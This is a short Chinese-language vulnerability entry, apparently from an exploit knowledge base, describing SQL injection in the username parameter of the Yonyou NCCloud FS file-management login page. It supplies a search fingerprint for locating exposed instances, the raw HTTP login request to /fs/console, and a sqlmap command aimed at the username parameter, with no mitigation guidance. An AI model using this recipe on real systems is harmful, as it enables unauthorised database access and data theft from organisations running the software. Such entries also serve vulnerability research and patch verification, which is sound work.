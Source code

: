 # 用友 NCCloud FS文件管理SQL注入

## 漏洞描述

用友 NCCloud FS文件管理登录页面对用户名参数没有过滤，存在SQL注入

## 漏洞影响

<a-checkbox checked>用友 NCCloud</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"NCCloud"</a-checkbox></br>

## 漏洞描述

登录页面如下



![img](../../../.vuepress/public/img/yongyou-13.png)

在应用中存在文件服务器管理登录页面

```plain
http://xxx.xxx.xxx.xxx/fs/
```



![img](../../../.vuepress/public/img/yongyou-14.png)



登录请求包如下



```plain
GET /fs/console?username=123&password=%2F7Go4Iv2Xqlml0WjkQvrvzX%2FgBopF8XnfWPUk69fZs0%3D HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: JSESSIONID=2CF7A25EE7F77A064A9DA55456B6994D.server; JSESSIONID=0F83D6A0F3D65B8CD4C26DFEE4FCBC3C.server
Connection: close
```

使用Sqlmap对`username参数` 进行SQL注入

```plain
sqlmap -r sql.txt -p username
```

![img](../../../.vuepress/public/img/yongyou-15.png)
